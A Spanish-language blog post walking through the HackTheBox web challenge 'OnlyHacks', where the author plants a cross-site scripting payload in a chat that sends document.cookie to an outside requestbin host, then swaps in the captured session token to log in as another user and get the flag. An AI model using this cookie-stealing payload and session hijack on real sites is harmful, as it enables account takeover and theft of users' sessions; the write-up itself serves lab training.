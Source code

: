 ```yaml
---
title: "HackTheBox - Challenge OnlyHacks"
summary: "Vamos a ver el paso a paso detallado de como ir resolviendo el challenge:"
date: "2025-04-04"
draft: false
tags:
- Tutorial
- HackTheBox
- Challenge
- Web
---
```


### Paso a paso:


- Entro a los dos links q me dieron: 
    ![Test Relative Image](./imagen.png)

<div style="height: 5px;"></div>

- Pruebo registrarme con el mail test@email.htb:
    ![Test Relative Image](./imagen2.png)
    
<div style="height: 5px;"></div>

- Nos registramos y nos dan a elegir personas:
    ![Test Relative Image](./imagen3.png)

<div style="height: 5px;"></div>

- Elegimos a las chicas y después vamos a matches:
    ![Test Relative Image](./imagen4.png)

<div style="height: 5px;"></div>

- Probamos un script en el chat:
    ![Test Relative Image](./imagen5.png)

<div style="height: 5px;"></div>

- Utilizo Requestbin whoapi para generar un link que me muestre las maquinas que piden la petición a dicha web:
    ![Test Relative Image](./imagen6.png)

<div style="height: 5px;"></div>

- Después pego el link con un script en el chat de la maquina atacada:
    <pre><code>&lt;script&gt;fetch(&quot;http://requestbin.whapi.cloud/1kxv70s1?cookie=&quot; + document.cookie);&lt;/script&gt;</code></pre>

<div style="height: 5px;"></div>

- Y veo las peticiones:
    ![Test Relative Image](./imagen7.png)

<div style="height: 5px;"></div>

- Mi sesion web token acaba en W-M asiq la otra es la de la web:
    ![Test Relative Image](./imagen8.png)

<div style="height: 5px;"></div>

- En la pagina presiono ctrl + shift + C y voy a la parte de storage y veo mi sesión web token qur es:
    eyJ1c2VyIjp7ImlkIjo1LCJ1c2VybmFtZSI6ImpvYSJ9fQ.Z-7cdA.q-qU-lMHSmBzD4TQRvw4LU8IW-M
    ![Test Relative Image](./imagen9.png)

<div style="height: 5px;"></div>

- Y lo remplazo por el de Renata que me dio en la petición que hizo a la web:
    eyJ1c2VyIjp7ImlkIjoxLCJ1c2VybmFtZSI6IlJlbmF0YSJ9fQ.Z-7buw.346_oMwGAJSQdJA_GQQoNyGfwZQ

<div style="height: 5px;"></div>    

- Y así entro a la web como Renata:
    ![Test Relative Image](./imagen10.png)

<div style="height: 5px;"></div>

- Y ahi encuentro la llave:
    ![Test Relative Image](./imagen11.png)
    

